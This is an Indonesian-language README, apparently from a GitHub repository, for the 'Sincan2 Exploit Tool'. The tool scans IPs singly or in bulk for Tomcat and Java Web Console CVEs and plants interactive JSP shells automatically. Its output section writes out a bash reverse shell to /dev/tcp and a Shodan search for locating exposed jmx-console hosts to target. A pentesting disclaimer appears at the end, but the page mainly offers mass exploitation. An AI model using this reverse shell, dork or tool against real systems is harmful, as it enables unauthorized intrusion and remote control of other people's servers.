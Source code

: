 # 🛠️ Sincan2 Exploit Tool v3.4.1

> **by MHL TEAM**  
> Framework eksploitasi interaktif untuk vektor Java Web Console, Apache Tomcat, dan berbagai CVE modern.

![Screenshot](demo.png)

---

## 🚀 Fitur Utama

- 🎯 Scan satu IP atau massal dari file
- 🧠 Deteksi CVE modern secara otomatis
- 💣 Eksploitasi otomatis shell JSP interaktif
- 📁 Stateful scanning: hasil sukses disimpan & IP dihapus

---

## 🔍 Dukungan CVE

- CVE-2022-0853 — ROP Memory Leak  
- CVE-2023-5379 — Undertow Overflow  
- CVE-2023-1397 — DoS 8MB  
- CVE-2023-6236 — Spoofed JSON  
- CVE-2025-24813 — Tomcat Path Traversal

---

## 📦 Cara Pakai

```bash
bash sodok.sh
```

Ikuti menu interaktif:

- `[1]` Scan satu IP
- `[2]` Scan dari file (`koped.txt`)
- `[3]` Keluar

---

## 🧾 Output Shell

```bash
Target Shell: http://IP/jexws4/jexws4.jsp
Reverse Shell: /bin/bash -i >& /dev/tcp/IPMU/PORT 0>&1
Dork : cari target nya dus : https://www.shodan.io/search?query=%22jmx-console%22+country%3A%22CN%22
```

---

## ⚠️ Disclaimer

Tool ini hanya untuk penggunaan sah dalam penetration testing & edukasi.  
Segala penyalahgunaan adalah tanggung jawab pengguna.

---

## 🤝 Kontribusi

BY Sincan2 MHL Team.

---

## 📫 Kontak

📧 Tim MHL: `sincan2@gmail.com`  
🔗 GitHub: [github.com/sincan2](https://github.com/sincan2)
